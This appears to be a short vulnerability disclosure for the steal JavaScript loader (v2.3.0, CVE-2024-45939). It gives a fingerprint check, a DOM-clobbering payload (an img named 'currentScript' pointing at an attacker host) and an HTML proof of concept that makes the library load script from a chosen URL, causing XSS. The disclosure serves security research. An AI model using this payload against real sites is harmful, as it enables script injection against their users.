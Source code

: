 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://attack.hulk"><img>```
+ Impact: XSS
+ CVE: CVE-2024-45939
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
